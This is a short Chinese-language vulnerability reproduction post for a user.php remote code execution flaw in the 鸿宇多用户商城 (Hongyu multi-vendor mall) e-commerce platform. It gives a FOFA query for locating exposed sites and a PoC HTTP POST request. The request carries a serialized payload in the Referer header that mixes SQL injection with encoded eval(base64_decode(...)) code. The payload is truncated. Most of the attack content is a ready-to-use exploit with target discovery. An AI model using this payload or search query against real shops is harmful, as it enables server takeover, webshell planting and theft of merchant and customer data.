 
# 鸿宇多用户商城 user.php RCE 漏洞复现

### 0x01 产品简介

   鸿宇多用户商城是一款支持各行业的多商家入驻型电商平台系统，商家版 APP，微信商城，小程序及各种主流营销模块应有尽有，是一个功能强大的电子商务平台，旨在为企业和个人提供全面的在线购物解决方案。

### 0x02 漏洞概述

  鸿宇多用户商城 user.php 存在任意命令执行漏洞，攻击者可通过该漏洞在服务器端任意执行代码，写入后门，获取服务器权限，进而控制整个 web 服务器。

### 0x03 复现环境

FOFA：body="content=HongYuJD" && body="68ecshopcom\_360buy"

![](assets/1701746429-4b9f48d4c3e0362ec3935f32449a1105.png)

### 0x04 漏洞复现 

PoC

```http
POST /user.php HTTP/1.1
Host: {{Hostname}}
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Content-Type: application/x-www-form-urlencoded
Referer: 554fcae493e564ee0dc75bdf2ebf94caads|a:2:{s:3:"num";s:233:"*/SELECT 1,0x2d312720554e494f4e2f2a,2,4,5,6,7,8,0x7b24617364275d3b6576616c09286261736536345f6465636f64650928275a585a686243
```

